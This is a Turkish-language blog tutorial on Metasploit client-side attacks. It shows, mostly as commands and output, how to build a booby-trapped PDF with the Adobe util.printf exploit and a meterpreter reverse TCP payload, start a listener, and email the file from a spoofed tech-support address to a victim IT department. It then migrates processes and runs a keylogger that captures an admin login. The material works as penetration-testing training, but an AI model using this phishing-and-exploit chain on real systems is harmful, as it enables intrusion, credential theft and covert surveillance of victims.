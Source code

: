 ```yaml
---
draft: false

title:  'MSF Binary İstemci Exploitleri'
date: '2017-05-20T13:13:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
 
 
url:  /tr/msf-binary-istemci-exploitleri/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Tarafı Exploitler



Önceki yazılarımızda Windows ve Linux için kullanılan istemci tarafı exploitleri görmüştük. Bu yazımızda başka bir senaryoya bakmak istiyorum.



Başarılı bir bilgi toplama safhasından sonra bir IT firması ile ilgili şu sonuca ulaştığımızı farz edelim. Firma;



1) Kullandıkları sistemler en yeni teknolojidir.



2) IT departmanının eposta adresi: itdept@victim.com



Şimdi bu durumda, IT departmanında bir bilgisayara ulaşmak ve keylogger adı verilen (tuş kaydedici) çalıştırmak istiyoruz. Bu sayede klavyeden bastıkları tuşları kayıt ederek yararlı bilgiler elde etmek mümkün olacaktır.



`msfconsole` komutu ile Metasploit Framework’ü çalıştıralım. IT departmanının ilgisini çekecek ve açıp okumak isteyeceği bir PDF dokümanı hazırlayalım. Dokümanın güvenlikle ilgili ve mantıklı bir başlığının olması gerektiğini unutmayın. Ayrıca Antivirüs yazılımları tarafından zararlı olarak algılanmaması gerekmektedir.



Böyle bir PDF dokümanı hazırlamak için **Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Zafiyetini** kullanacağız. Bunun için `exploit/windows/fileformat/adobe_utilprintf` modülünü yükleyelim.


```bash
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set FILENAME BestComputers-UpgradeInstructions.pdf
FILENAME => BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(adobe_utilprintf) > set LPORT 4455
LPORT => 4455
msf exploit(adobe_utilprintf) > show options

Module options (exploit/windows/fileformat/adobe_utilprintf):

   Name      Current Setting                        Required  Description
   ----      ---------------                        --------  -----------
   FILENAME  BestComputers-UpgradeInstructions.pdf  yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.128    yes       The listen address
   LPORT     4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Adobe Reader v8.1.2 (Windows XP SP3 English)
```



Çıktıdan da görüleceği gibi `FILENAME` değişkenini yani dosya adını istediğiniz gibi ayarlayabilirsiniz. Payload kısmında ise `LHOST` ve `LPORT` değişkenlerini dinleme yapılacak bilgisayarın bilgileri olarak ayarlamamız gerekmektedir. Ardında `exploit` komutu ile modülü çalıştıralım.


```bash
msf exploit(adobe_utilprintf) > exploit

> Creating 'BestComputers-UpgradeInstructions.pdf' file...
> BestComputers-UpgradeInstructions.pdf stored at /root/.msf4/local/BestComputers-UpgradeInstructions.pdf
msf exploit(adobe_utilprintf) >
```



Görüldüğü gibi PDF dosyası, `/root/.msf4/local/` içerisine oluşturulmuştur. Bu dosyayı kolay ulaşım için `/tmp` klasörü içine kopyalayalım. Şimdi dosyamızı ilgili eposta adresine göndermeden önce bilgisayarımızda dinleyici modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü kullanacağız. `LHOST` ve `LPORT` değerlerini PDF dosyası oluştururken verdiğimiz değerlerle aynı olmasına dikkat ediyoruz.


```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4455
LPORT => 4455
msf exploit(handler) > set LHOST 192.168.8.128
LHOST => 192.168.8.128
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```



Dinleyici modülü aktif hale getirdikten sonra bir şekilde PDF dosyasını `itdept@victim.com` adresine göndermemiz gerekiyor. Bunu aşağıdaki örnek komutla yapabilirsiniz. Başka eposta gönderme yöntemleri de kullanabilirsiniz. Komut örnek olarak verilmiştir.


```bash
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing **in **a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for **upgrading and securing your software. Please read and let us know **if **you have any problems.

Sincerely,

Best Computers Tech Support
Aug 24 17:32:51 kali sendEmail[13144]: Message input complete.
Aug 24 17:32:51 kali sendEmail[13144]: Email was sent successfully!
```



Bu örnek komutta kullanılan parametreleri kısaca açıklayalım.



`-t`: TO yani alıcı adresi ifade eder. `-f`: FROM yani gönderici adresi ifade eder. `-s`: SMTP Server IP adresini ifade eder. `-u`: TTITLE yani postanın konusunu ifade eder. `-a`: ATTACHMENT yani ekli dosyayı ifade eder.



Komutu yazıp ENTER tuşuna bastığınızda, epostanın Metin kısmını yazmaya başlayabilirsiniz. Yazım tamamlandıktan sonra CTRL+D tuşları ile işlemi tamamlayabilirsiniz. Böylece posta alıcı adrese gönderilecektir.



Alıcı, bu postayı alıp Antivirüs programı ile kontrol ettiğinde zararsız olarak sonuç alacaktır ancak dosyayı açmak için tıkladığında karşısına boş bir ekran gelse bile aslında dinleyici bilgisayarla iletişim kurulmuş olur.


```bash
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (718336 bytes)
session[*******]** Meterpreter session 1 opened (192.168.8.128:4455 -> 192.168.8.130:49322)

meterpreter >
```



Gördüğünüz gibi, PDF dosyası açıldığında Meterpreter shell açılmış durumdadır. Artık karşı tarafın bilgisayarında çeşitli komutları çalıştırmak mümkündür. Son olarak `post/windows/capture/keylog_recorder` modülünü çalıştırarak tuş hareketlerini kaydetmek mümkün hale gelmiştir.


```bash
meterpreter > ps

Process list
**============**

    PID   Name            Path                                 
    ---   ----            ----                                 
    852   taskeng.exe     C:\Windows\system32\taskeng.exe      
    1308  Dwm.exe         C:\Windows\system32\Dwm.exe          
    1520  explorer.exe    C:\Windows\explorer.exe              
    2184  VMwareTray.exe  C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    2196  VMwareUser.exe  C:\Program FilesVMware\VMware Tools\VMwareUser.exe
    3176  iexplore.exe    C:\Program Files\Internet Explorer\iexplore.exe
    3452  AcroRd32.exe    C:\Program Files\AdobeReader 8.0\ReaderAcroRd32.exe

meterpreter > run post/windows/manage/migrate 

> Running module against V-MAC-XP
> Current server process: svchost.exe (1076)
> Migrating to explorer.exe...
> Migrating into process ID 816
> New server process: Explorer.EXE (816)

meterpreter > sysinfo
Computer: OFFSEC-PC
OS      : Windows Vista (Build 6000, ).

meterpreter > use priv
Loading extension priv...success.

meterpreter > run post/windows/capture/keylog_recorder 

> Executing module against V-MAC-XP
> Starting the keystroke sniffer...
> Keystrokes being saved **in **to /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
> Recording keystrokes...
```



Kaydedilen tuşları, `20110323091836_default_192.168.1.195_host.windows.key_832155.txt` dosyasının içeriğinden kontrol edebilirsiniz.


```bash
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
Keystroke log started at Wed Mar 23 09:18:36 -0600 2011
Support,   I tried to open ti his file 2-3 times with no success.  I even had my admin and CFO tru   y it, but no one can get it to p open.  I turned on the rmote access server so you can log **in **to fix our p         this problem.  Our user name is admin and password for **that session is 123456.   Call or eme ail when you are **done**.   Thanks IT Dept
```



Görüldüğü gibi IT çalışanı, tuş hareketlerinde kullanıcı adının `admin` ve parolasının `123456` olduğunu habersizce ortaya çıkarmıştır.
